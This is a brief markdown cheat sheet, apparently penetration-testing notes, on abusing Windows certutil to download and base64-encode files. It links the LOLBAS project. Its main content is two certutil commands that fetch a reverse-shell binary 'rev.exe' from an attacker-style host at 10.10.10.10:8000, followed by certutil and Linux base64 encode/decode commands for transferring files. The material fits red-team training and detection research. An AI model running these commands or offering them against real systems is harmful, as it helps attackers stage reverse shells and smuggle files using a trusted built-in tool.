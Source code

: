 # Using certutil to download file 
## Link to lolbas 
- https://lolbas-project.github.io/lolbas/Binaries/Certutil/#encode

## Download
```powershell
certutil.exe -urlcache -split -f http://10.10.10.10:8000/rev.exe rev.exe
certutil.exe -verifyctl -f -split http://10.10.10.10:8000/rev.exe rev.exe
```

## Download / Upload using base64
### Encode
```powershell
certutil -encode inputFileName encodedOutputFileName
```

### Decode 
```powershell
certutil -decode encodedInputFileName decodedOutputFileName
```

### Decode (Kali linux)
```bash
# Note : It is very important to add the double slash at the beginning
echo "//50AGUAcwB0AF8AYgA2ADQAXwBjAGUAcgB0AHUAdABpAGwADQAKAA==" | base64 -d
```